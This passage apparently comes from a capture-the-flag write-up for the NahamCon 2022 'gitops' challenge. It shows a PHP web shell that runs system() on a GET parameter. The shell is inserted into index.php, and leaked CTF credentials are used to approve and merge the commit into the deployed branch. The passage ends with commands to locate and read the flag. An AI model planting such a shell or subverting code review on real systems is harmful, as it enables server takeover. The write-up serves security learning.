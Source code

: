 ## Pivoting to Web Server

Remember in the `README.md`, we had to get someone else to approve our code before it gets merged into the Master Branch. We will use our newly discovered account to approve our malicious commit.

We will add a simple command execution form in the `index.php` file, and I always like to put a `phpinfo();`, This ways, if per example `system()` command is disabled on the server, with the `phpinfo`, I will be able to confirm I can execute PHP code, and you should be able to view which functions are restricted and tons of useful information on the target.

```php
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="TEXT" name="cmd" id="cmd" size="80" />
  <input type="SUBMIT" value="Execute" />
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
<pre>
<?php
    phpinfo();
?>
</pre>
```

- Repeat previous steps to modify `drone.yml` but instead change `index.php`, Once the commit is made, you need to ask for a pull request

  ![Create Pull Request](/static/images/nahamcon-ctf-2022/gitops/PullRequest.png)

- Then Disconnect from the _developer_ account and connect with the credentials founds previously `droneci:t4K0@s!qSF`

- We now need to peer review the commit from _developer_ account asking to be merged into master

  ![Approve Commit made by Developer](/static/images/nahamcon-ctf-2022/gitops/peer_review.png)

- Now the final step, we need to actually create a merge commit to the master branch

  ![Merged to master branch](/static/images/nahamcon-ctf-2022/gitops/Merge.png)

### Confirm the malicious `index.php` has been pushed to the webserver

Now is the final check, Cross your fingers and navigate to `Web.challenge.nahamcon.com`.

![Reverse Shell Testing](/static/images/nahamcon-ctf-2022/gitops/phpinfo.png)

At first, we thought me might need to find some privilege escalation vulnerability on the web server to gain root access then grab the flag, we create a reverse shell from the Webserver, but after quick enumeration, we found the flag on the system root and were able to read it with user `www-data`. So instead of creating a new reverse shell, you can use `find` and `cat` to grab the flag.

```
find / -name *.txt -type f
cat /flag.txt
```

![Finding the flag](/static/images/nahamcon-ctf-2022/gitops/find_flag.png)
![Grabbing the Flag](/static/images/nahamcon-ctf-2022/gitops/flag.png)
